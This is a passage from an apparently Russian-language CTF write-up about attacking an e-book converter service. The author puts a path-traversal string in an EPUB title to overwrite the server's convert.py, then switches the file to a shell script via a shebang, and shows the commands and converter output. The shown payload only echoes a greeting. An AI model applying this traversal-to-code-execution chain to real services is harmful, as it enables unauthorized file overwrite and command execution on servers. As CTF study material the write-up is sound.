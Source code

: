 ```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
   creating: OEBPS/
  inflating: OEBPS/content.opf       
 extracting: OEBPS/source.xhtml      
Rootfile found at OEBPS/content.opf
Title: ../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
Output: /tmp/converted/../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
```

Ура, мы что-то перезаписали. Попробуем сконвертировать какую-нибудь книгу, чтобы вызвать на сервере `convert.py`... и получим 500 Internal Server Error.

Ладно.

Перезапустим контейнер и попробуем делать не настолько резкие изменения в `convert.py`. Впрочем, тут же оказывается, что даже если залить ровно тот же `convert.py`, который мы скачали из системы, ошибка никуда не уходит. В чем же проблема?

Присмотримся еще раз к скачанному файлу и заметим, что на его конце появляется строка `---`. Это разделитель страниц, который добавляет конвертер:

```python
f_out.write(f"{chapter}\n\n---\n\n")
```

Потыкавшись в интерпретатор Python, понимаем, что на `---` никакая валидная программа заканчиваться не может. Но кто сказал, что она должна быть написана на Python? Первая строка кода содержит [shebang](https://ru.wikipedia.org/wiki/%D0%A8%D0%B5%D0%B1%D0%B0%D0%BD%D0%B3_(Unix)), так что весьма вероятно, что язык можно изменить. Например, шелл-скрипты хороши тем, что ошибки они практически всегда игнорирует. Посмотрим, что получится:

```shell
$ cat >OEBPS/source.xhtml <<EOF
#!/bin/sh
echo "Hello, world!"
EOF
$ zip -r ../test-book.zip .
updating: mimetype (stored 0%)
updating: META-INF/ (stored 0%)
updating: META-INF/container.xml (deflated 27%)
updating: OEBPS/ (stored 0%)
updating: OEBPS/content.opf (deflated 52%)
updating: OEBPS/source.xhtml (stored 0%)
```

```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
   creating: OEBPS/
  inflating: OEBPS/content.opf       
 extracting: OEBPS/source.xhtml      
Rootfile found at OEBPS/content.opf
Title: ../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
Output: /tmp/converted/../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
```
